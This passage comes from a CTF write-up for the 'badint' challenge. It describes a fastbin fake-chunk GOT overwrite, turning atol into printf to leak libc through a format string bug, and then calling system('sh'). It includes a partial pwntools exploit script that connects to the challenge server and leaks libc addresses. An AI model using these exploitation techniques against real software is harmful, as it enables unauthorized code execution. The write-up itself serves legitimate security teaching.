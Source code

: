 Later we could just allocate the chunk in `fastbin[2]`. Once we allocate `0x604042`, we'll be able to overwrite the GOT entry by copying our data into the fake fastbin chunk.  

But there's one more problem: we don't know the version of the libc. The libc address we leaked is the address of `main_arena+88`, neither [libc-database](https://github.com/niklasb/libc-database) nor [libcdb.com](http://libcdb.com/) can find the libc version with this symbol's address. 

So we'll have to leak more addresses. However, although we can modify a function's GOT, there's no way we can store a GOT entry's address in the function parameter. Luckily, I still managed to figure out the solution: **by using the format string vulnerability.**  

We could modify `atol@got.plt` into `printf@got.plt`, which will turn `atol(our_input)` into `printf(our_input)`, **thus we create a format string vulnerability, and we can use the vulnerability to leak an arbitrary address.** By doing this, I was able to leak some GOT entries and found the correct version of libc at [libcdb.com](http://libcdb.com/). After that is simple, we could just hijack `atol`'s GOT and call `system('sh')` by entering "sh".  

```python exp_bad.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "badint_7312a689cf32f397727635e8be495322.quals.shallweplayaga.me"
PORT = 21813
ELF_PATH = "./badint"
#LIBC_PATH = "/lib/x86_64-linux-gnu/libc.so.6"
LIBC_PATH = "./libc-2.19_15.so"

context.binary = ELF_PATH
context.log_level = 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal = ['tmux', 'splitw'] # for gdb.attach

elf = context.binary # context.binary is an ELF object
libc = ELF(LIBC_PATH)

def add_data(seq, off, data, lsf):
    r.sendlineafter("SEQ #:", str(seq))
    r.sendlineafter("Offset: ", str(off))
    r.sendlineafter("Data: ", data)
    r.sendlineafter("Yes/No: ", lsf)

def convert(num):
    ret = ""
    while num != 0:
        now = num & 0xff
        num >>= 8
        ret = ret + '{:02x}'.format(now)
    return ret.ljust(16, "0")

if __name__ == "__main__":
    
    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    add_data(1, 8, "1"*0x90*2, 'Yes')
    r.recvuntil("Assembled [seq: 1]: ")
    # leak libc address
    addr = 0
    for i in xrange(6):
        addr |= ((int(r.recv(2), 16)) << (i*8))
    
    log.success("addr: " +hex(addr))
    # libc.address = addr - 0x3c3b78 # local
```